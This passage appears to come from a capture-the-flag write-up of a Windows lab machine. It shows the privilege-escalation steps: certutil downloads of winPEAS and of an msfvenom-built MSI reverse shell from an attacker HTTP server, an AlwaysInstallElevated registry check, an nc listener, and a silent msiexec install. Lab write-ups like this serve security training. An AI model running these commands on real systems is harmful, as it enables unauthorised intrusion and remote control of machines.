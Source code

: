 > **Tip**: When I get the results, I can't see the whole report, so I have to modify the **[Scrollback](https://lyz-code.github.io/blue-book/kitty/){:target="_blank"}** of `kitty`, modifying **kitty.conf**.

> **kitty.conf**

```bash
# Add this two lines
scrollback_lines -1
scrollback_pager_history_size 0
```

> **Attacking Machine**:

```bash
python3 -m http.server 80
```

> **Victim Machine**:

```powershell
certutil.exe -f -urlcache -split http://10.10.14.8/winPEAS.exe winPEAS.exe
.\winPEAS.exe

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> **Attacking Machine**:

```bash
apt search metasploit
apt install metasploit-framework
msfdb run

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f msi -o reverse_shell.msi

python3 -m http.server 80
```

> **Victim Machine**:

```powershell
certutil.exe -f -urlcache -split http://10.10.14.8/reverse_shell.msi reverse_shell.msi
```

> **Attacking Machine**:

```bash
rlwrap nc -nlvp 443
```

> **Victime Machine**:

```powershell
msiexec /quiet /qn /i reverse_shell.msi
```

<br/>
<img src="{{ site.img_path }}/love_writeup/Love_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>